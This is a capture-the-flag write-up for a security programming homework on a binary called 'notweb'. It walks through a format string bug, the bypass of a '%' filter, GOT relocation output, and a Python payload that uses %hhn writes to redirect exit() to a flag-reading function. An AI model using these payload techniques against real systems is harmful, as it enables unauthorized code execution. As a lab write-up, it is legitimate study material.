 ================
 notweb Writeup
================

:date: 2014-11-27 18:00
:modified: 2015-01-25 11:20
:tags: secprog, ctf, writeup
:category: memo
:slug: notweb-writeup
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: Security Programming Homework 3-2

Finding Weak Points
===================

After using gdb to do the dynamic analysis, I found that function ``main()``
will call function ``get_request()``. So I set the break point at the line
which calls ``get_request()`` and check it out step by step. The program calls
``fgets()`` to get the input, and using ``strtok()`` to chop the string
according to the spaces. If the whold string only consists of one single word,
it calls exit to terminate the program. Otherwise the program will go on.

.. code-block:: nasm

    08048a51:       89 45 ec                mov    DWORD PTR [ebp-0x14],eax
    08048a54:       83 7d ec 00             cmp    DWORD PTR [ebp-0x14],0x0
    08048a58:       75 0c                   jne    8048a66 <get_request+0x90>
    08048a5a:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
    08048a61:       e8 ea fb ff ff          call   8048650 <exit@plt>

The variable ``buf`` sucks in the whole line of input then splits the input
into tokens according to space and colon. A diagram is showed below:

.. code-block:: text

    ORIGINAL INPUT:

    GET /echo:%x%x%x%x%x
    |   |     |
    |   |     v
    |   v     stored in local variable in ``main()``, using ``s`` as example
    v   length of the string is 5, the first character is stored in ``file``
    abandoned

And there is a piece of code that contains ``printf(buf)`` in the function
``echo()``. With this, exploiting the vulnerability of format string to leak
arbitrary memory is easy. Even write some values into memory could be possible.

Weird Filter
============

In ``get_request()``, the first n bytes of global variable ``buf`` will be
eliminated before return. This will make the second for loop in
``filter_format()`` has no effect. Because the first n bytes of global variable
``buf`` are already been cleared with zeros, the length of the string is zero.
Thus the for loop will ended up immediately. As a result, the global ``buf``
remains, '%' is not replaced with '_'.

In function ``echo()``, after calling ``filter_format()``, the string which is
after ':' ('%' have already been replaced with '_') will be copied to the front
end of the global variable ``buf``. This could make the string which is after
':' of the global variable ``buf`` ('%' are not replaced with '_') being
overlaped. So extra calculation must be taken to assure the target string not
being messed, if someone want to exploit the program using format string.

According to the example string which is entered into the program, the value in
the global variable ``buf`` before calling ``printf(buf)`` in function
``echo()`` is:

.. code-block:: text

    _x_x_x_x_x\nx%x%x%x%x\n

The result showed up is:

.. code-block:: text

    _x_x_x_x_x
    xfffe4f4cbf7f4b3d00

If the length of the string after ':' (including '\n') is exactly 10, it can
overwrite the byte which contains ':' (':' is replaced with string terminator
because of ``strtok``). In the end, the whole string is connected again, rear
part is our original format string.

Padding some trival characters between ':' and the format string to ensure to
connect the global variable ``buf`` again, if the lenth of the string is less
than 10.

.. code-block:: text

    GET /echo:aaaaaaa%p

For the string which is longer than 10, one must pad some trival characters to
make sure the format string won't be covered by something useless by the
fxxking program logic.

.. code-block:: text

    GGET /echo:%p%p%p%p%p

Objective
=========

The return address is at ``$esp+0x1c`` in ``echo()``, that is to say, using
``%7$p`` could leak the return address (of course the length must be at least
10 characters). Our objective is to modify the address (0x0804917f) with the
address of function ``normal_file()`` (0x08048c8f). Besides, the content of the
global variable ``file`` should be "flag". With all of this, the function
``normal_file()`` can have the ability of opening the file of the flag and
reading that file. The gods send nut to those who have no teeth, the server
side has already enabled ASLR, so we cannot know the location of the return
address in the stack. Thus, exploitation using format string to overwrite the
return address in the stack is not practical.

However, there's another way to control the ``eip`` though the return address
cannot be modified. The Global Offset Table (GOT) might be a good candidate.
The offset of the function ``fflush()`` in the GOT is 0x0804b018. The content
in that is the actual position of ``fflush()`` (0xf7e78760) after GLIBC was
dynamically loaded into the program. So we just have to replace the address
with the address of ``normal_file()``. But again, the gods send nut to those
who have no theeth, there is a ``fflush()`` in the function ``normal_file()``.
So doing this will cause an endless loop. A better choice is to modify the
address of the function ``exit()`` in the GOT to avoid that. The offset of the
function ``exit()`` in the GOT is 0x0804b03c.

.. code-block:: bash

    $ readelf -r notweb

    Relocation section '.rel.dyn' at offset 0x49c contains 3 entries:
     Offset     Info    Type            Sym.Value  Sym. Name
     0804affc  00000c06 R_386_GLOB_DAT    00000000   __gmon_start__
     0804b080  00001805 R_386_COPY        0804b080   stdin
     0804b0a0  00001605 R_386_COPY        0804b0a0   stdout

    Relocation section '.rel.plt' at offset 0x4b4 contains 21 entries:
     Offset     Info    Type            Sym.Value  Sym. Name
     0804b00c  00000107 R_386_JUMP_SLOT   00000000   strstr
     0804b010  00000207 R_386_JUMP_SLOT   00000000   strcmp
     0804b014  00000307 R_386_JUMP_SLOT   00000000   printf
     0804b018  00000407 R_386_JUMP_SLOT   00000000   fflush
     0804b01c  00000507 R_386_JUMP_SLOT   00000000   memcpy
     0804b020  00000607 R_386_JUMP_SLOT   00000000   bzero
     0804b024  00000707 R_386_JUMP_SLOT   00000000   fgets
     0804b028  00000807 R_386_JUMP_SLOT   00000000   fclose
     0804b02c  00000907 R_386_JUMP_SLOT   00000000   chdir
     0804b030  00000a07 R_386_JUMP_SLOT   00000000   fseek
     0804b034  00000b07 R_386_JUMP_SLOT   00000000   fread
     0804b038  00000c07 R_386_JUMP_SLOT   00000000   __gmon_start__
     0804b03c  00000d07 R_386_JUMP_SLOT   00000000   exit
     0804b040  00000e07 R_386_JUMP_SLOT   00000000   strlen
     0804b044  00000f07 R_386_JUMP_SLOT   00000000   __libc_start_main
     0804b048  00001007 R_386_JUMP_SLOT   00000000   write
     0804b04c  00001107 R_386_JUMP_SLOT   00000000   ftell
     0804b050  00001207 R_386_JUMP_SLOT   00000000   fopen
     0804b054  00001307 R_386_JUMP_SLOT   00000000   strncpy
     0804b058  00001407 R_386_JUMP_SLOT   00000000   strtok
     0804b05c  00001507 R_386_JUMP_SLOT   00000000   sprintf

Besides controlling the ``eip``, the global variable ``file`` should be set to
the string "flag", too.

Exploitation
============

The key point is that how to design the payload and keep the original format
string from destroying by the filter. The following is the main part of the
exploitation code.

.. code-block:: python

    # exit()'s offset in GOT showed up in stack fram
    # normal_file() @ 0x08048c8f
    # total 16 bytes
    addr1  = struct.pack('<I', 0x0804b03c) # 0x8f
    addr1 += struct.pack('<I', 0x0804b03d) # 0x8c
    addr1 += struct.pack('<I', 0x0804b03e) # 0x04
    addr1 += struct.pack('<I', 0x0804b03f) # 0x08

    # file's address showed up in stack frame
    # file @ 0x080637e0
    # total 16 bytes
    addr2  = struct.pack('<I', 0x080637e0) # 'f': 0x66 102
    addr2 += struct.pack('<I', 0x080637e1) # 'l': 0x6c
    addr2 += struct.pack('<I', 0x080637e2) # 'a': 0x61
    addr2 += struct.pack('<I', 0x080637e3) # 'g': 0x67

    inject1 = '%7c%15$hhn%253c%16$hhn%120c%17$hhn%4c%18$hhn' # 44 bytes
    inject2 = '%78c%30$hhn%6c%31$hhn%245c%32$hhn%6c%33$hhna' # 44 bytes

    padding = 'G'*110

    payload = padding + 'GET /echo:' + addr1 + inject1 + addr2 + inject2 + '\n'

Flag
====

The flag is:

.. code-block:: text

    SECPROG{But_PWN_!s_e@sier_th@n_WEB_XDDDD}

